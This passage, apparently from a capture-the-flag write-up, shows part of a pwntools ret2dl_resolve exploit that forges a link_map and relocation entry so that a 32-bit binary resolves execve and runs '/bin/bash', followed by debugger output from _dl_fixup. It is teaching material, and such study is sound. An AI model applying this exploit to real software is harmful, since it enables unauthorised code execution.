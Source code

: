 ```python 

    return fake_link_map 


fake = make_link_map(fake_link_map_addr, offset_2_addr)

# Point symtab to got -4, st_value is second field
fake += p32(6)
fake += p32(exe.got.__libc_start_main -4 )

# jmptab
fake += p32(23)
fake += p32(fake_link_map_addr + len(fake) + 4 -1)

r_info = (0 << 8) | 0x7

# r_offset is used to place the val
fake_jmprel = p32(exe.bss() - offset_2_addr) + p32(r_info)

fake += fake_jmprel
fake += b"/bin/bash"
```

One thing to note is that in them jmprel r_offset seems to be a funny value. The reason is that this address plus the offset is written to with the resolved address shortly before dl_resolve_runtime finishes. I figured this out by setting memory watchpoints 

In this example I set r_offset to 0, notice that the value in edi is the offset of the two values
```bash
$eax   : 0xf7e4e790  →  <execve+0> endbr32
$ebx   : 0xf7ffa000  →  0x00036f2c
$ecx   : 0x0
$edx   : 0x0
$esp   : 0x0804ba14  →   add BYTE PTR [eax], al
$ebp   : 0x0804bb70  →   xor dl, dl
$esi   : 0x7
$edi   : 0xbd230
$eip   : 0xf7fd4004  →  <_dl_fixup+372> mov DWORD PTR [edi], eax
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x0804ba14│+0x0000:  add BYTE PTR [eax], al      ← $esp
0x0804ba18│+0x0004:  add BYTE PTR [eax], al
0x0804ba1c│+0x0008:  add BYTE PTR [eax], al
0x0804ba20│+0x000c:  add DWORD PTR [eax], eax
0x0804ba24│+0x0010: 0xf7ffa000  →  0x00036f2c
0x0804ba28│+0x0014:  add BYTE PTR [eax], al
0x0804ba2c│+0x0018:  xor dl, dl
0x0804ba30│+0x001c:  add BYTE PTR [eax], al
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0xf7fd3ffc <_dl_fixup+364>  test   edx, edx
   0xf7fd3ffe <_dl_fixup+366>  jne    0xf7fd4006 <_dl_fixup+374>
   0xf7fd4000 <_dl_fixup+368>  mov    edi, DWORD PTR [esp+0x18]
 → 0xf7fd4004 <_dl_fixup+372>  mov    DWORD PTR [edi], eax
   0xf7fd4006 <_dl_fixup+374>  add    esp, 0x3c
   0xf7fd4009 <_dl_fixup+377>  pop    ebx
   0xf7fd400a <_dl_fixup+378>  pop    esi
   0xf7fd400b <_dl_fixup+379>  pop    edi
   0xf7fd400c <_dl_fixup+380>  pop    ebp
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
```